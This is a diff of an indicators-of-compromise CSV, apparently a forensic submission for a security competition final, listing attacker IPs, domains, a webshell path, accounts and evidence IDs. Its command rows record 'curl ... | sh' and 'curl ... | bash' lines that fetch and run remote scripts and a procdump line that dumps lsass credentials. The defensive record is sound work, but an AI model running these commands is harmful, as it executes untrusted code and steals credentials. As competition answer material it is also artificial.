

Before and after one commit to LittFlower/ciscn2026-final-build, a CSV file: submit/ioc.csv, drawn as a sheet.

```diff
--- a/submit/ioc.csv
+++ b/submit/ioc.csv
@@ -1,21 +1,22 @@
 type,value,first_seen,last_seen,related_asset,evidence_ids
-ip,198.51.100.77,2026-07-06T09:05:00+08:00,2026-07-06T09:20:14+08:00,web-prod-01,E001;E011;E021
-ip,203.0.113.60,2026-07-06T09:16:10+08:00,2026-07-06T10:24:00+08:00,web-prod-01;ci-runner-01,E015;E016;E019;E074
-ip,203.0.113.210,2026-07-06T11:08:01+08:00,2026-07-06T11:08:01+08:00,ops-jump-01,E090
-ip,203.0.113.77,2026-07-06T11:50:00+08:00,2026-07-06T11:50:18+08:00,ops-jump-01,E097;E099;E100
-domain,archive-sync-bkt.storage.example,2026-07-06T11:08:00+08:00,2026-07-06T11:08:01+08:00,ops-jump-01,E089;E090
-domain,cdn-sync.example,2026-07-06T11:50:00+08:00,2026-07-06T11:50:18+08:00,ops-jump-01,E097;E098;E101
-file,/var/www/oa/public/.cache.php,2026-07-06T09:20:05+08:00,2026-07-06T09:20:14+08:00,web-prod-01,E020;E021
-file,c:\windows\temp\ls.dmp,2026-07-06T10:27:00+08:00,2026-07-06T10:27:02+08:00,win-admin-01,E071;E072
-file,c:\windows\temp\procdump.exe,2026-07-06T10:27:00+08:00,2026-07-06T10:27:02+08:00,win-admin-01,E071;E072
-file,c:\temp\finance_q2.7z,2026-07-06T10:49:00+08:00,2026-07-06T10:49:30+08:00,win-admin-01;ops-jump-01,E084;E085
+ip,198.51.100.77,2026-07-06T09:05:00+08:00,2026-07-06T09:20:14+08:00,web-prod-01,E006;E011;E021
+ip,203.0.113.60,2026-07-06T09:16:10+08:00,2026-07-06T10:24:05+08:00,web-prod-01;ci-runner-01,E015;E016;E071;E072
+ip,203.0.113.210,2026-07-06T11:08:01+08:00,2026-07-06T11:08:01+08:00,ops-jump-01,E089
+ip,203.0.113.77,2026-07-06T11:50:00+08:00,2026-07-06T11:50:18+08:00,ops-jump-01,E097;E098;E099;E100
+domain,archive-sync-bkt.storage.example,2026-07-06T11:08:00+08:00,2026-07-06T11:08:01+08:00,ops-jump-01,E088;E089
+domain,cdn-sync.example,2026-07-06T11:50:00+08:00,2026-07-06T11:50:18+08:00,ops-jump-01,E097;E098;E099;E100;E101
+file,/var/www/oa/public/.cache.php,2026-07-06T09:20:05+08:00,2026-07-06T09:20:17+08:00,web-prod-01,E020;E021;E022
+file,c:\windows\temp\ls.dmp,2026-07-06T10:27:00+08:00,2026-07-06T10:27:00+08:00,win-admin-01,E073;E074
+file,c:\windows\temp\procdump.exe,2026-07-06T10:27:00+08:00,2026-07-06T10:27:00+08:00,win-admin-01,E073;E074
+file,c:\temp\finance_q2.7z,2026-07-06T10:49:00+08:00,2026-07-06T10:49:30+08:00,win-admin-01;ops-jump-01,E086;E087
 file,/tmp/.cache/.stage/full.tar,2026-07-06T11:35:25+08:00,2026-07-06T11:50:12+08:00,ops-jump-01,E092;E098
-account,bi_sync,2026-07-06T10:12:00+08:00,2026-07-06T10:19:20+08:00,ops-jump-01;pgsql-bi-01,E060;E063
+account,deploy,2026-07-06T09:31:24+08:00,2026-07-06T11:50:12+08:00,web-prod-01;ops-jump-01,E029;E032;E098
 account,crm_ro,2026-07-06T09:51:00+08:00,2026-07-06T10:03:00+08:00,web-prod-01;mysql-core-01,E037;E046
-account,deploy,2026-07-06T09:31:24+08:00,2026-07-06T09:39:19+08:00,web-prod-01;ops-jump-01,E029;E032
-account,svc_deploy,2026-07-06T10:05:00+08:00,2026-07-06T10:18:21+08:00,ops-jump-01;gitlab-01;jenkins-01,E048;E049;E059
-account,corp\svc_backup,2026-07-06T10:08:06+08:00,2026-07-06T10:49:30+08:00,ops-jump-01;ad-dc-01;win-admin-01;file-srv-01,E053;E071;E082
-token,system:serviceaccount:prod:ci-runner,2026-07-06T10:28:00+08:00,2026-07-06T10:42:00+08:00,ci-runner-01;k8s-master-01,E076;E077;E086
+account,svc_deploy,2026-07-06T10:05:00+08:00,2026-07-06T10:18:21+08:00,ops-jump-01;gitlab-01;jenkins-01,E048;E049;E064
+account,corp\svc_backup,2026-07-06T10:08:06+08:00,2026-07-06T10:49:30+08:00,ops-jump-01;ad-dc-01;win-admin-01;file-srv-01,E051;E070;E082;E086;E087
+account,bi_sync,2026-07-06T10:12:00+08:00,2026-07-06T10:19:20+08:00,ops-jump-01;pgsql-bi-01,E058;E067
+account,role/oss-backup-reader,2026-07-06T10:42:00+08:00,2026-07-06T11:15:00+08:00,ci-runner-01;prod-backup,E084;E085;E090
+token,system:serviceaccount:prod:ci-runner,2026-07-06T10:28:00+08:00,2026-07-06T10:42:00+08:00,ci-runner-01;k8s-master-01,E076;E077;E084
 command,bash -c curl -fsSL https://203.0.113.60/a.sh | sh,2026-07-06T09:16:10+08:00,2026-07-06T09:16:10+08:00,web-prod-01,E015
-command,bash -c curl -fsSL https://203.0.113.60/ci.sh | bash,2026-07-06T10:24:00+08:00,2026-07-06T10:24:00+08:00,ci-runner-01,E074
-command,procdump.exe -ma lsass.exe c:\windows\temp\ls.dmp,2026-07-06T10:27:00+08:00,2026-07-06T10:27:02+08:00,win-admin-01,E071;E072
+command,bash -c curl -fsSL https://203.0.113.60/ci.sh | bash,2026-07-06T10:24:00+08:00,2026-07-06T10:24:00+08:00,ci-runner-01,E071
+command,procdump.exe -ma lsass.exe c:\windows\temp\ls.dmp,2026-07-06T10:27:00+08:00,2026-07-06T10:27:00+08:00,win-admin-01,E073;E074
```
Also changed, not shown: submit/evidence.csv, submit/timeline.csv, 2 other files.
